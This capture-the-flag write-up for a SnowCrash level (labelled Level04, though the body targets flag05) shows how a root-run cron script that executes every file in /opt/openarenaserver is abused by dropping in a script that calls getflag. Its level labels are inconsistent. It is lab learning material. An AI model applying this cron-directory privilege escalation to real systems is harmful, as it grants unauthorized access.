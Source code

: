 # WRITE UP

**Box**:            SnowCrash

**Name**:           Level04

**Description**:    Find the flag to connect to level01

**Category**:       ???

**Difficulty**:     Easy

---

## Basic checking

```bash
ls -la
```

**NOTHING !!!**

So i'm looking for some file under **flag05** as owner.

```bash
find / -user flag05 2>/dev/null
```

##  Break the prison (got it ?)

And I find some **openarenaserver** files! In one of them (**/usr/sbin/openarenaserver**) a script that run every script inside another openarenaserver file (located in **/opt/openarenaserver**) then remove the executed file.
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

So I run:

```bash
echo 'bin/getflag > /tmp/key.txt' > /opt/openarenaserver/script.sh && chmod +x /opt/openarenaserver/script.sh
```

Just wait for the crontab to execute the first script (the one that run all the others).
Then:
```bash
cat /tmp/key.txt
```

**FLAG FOUND**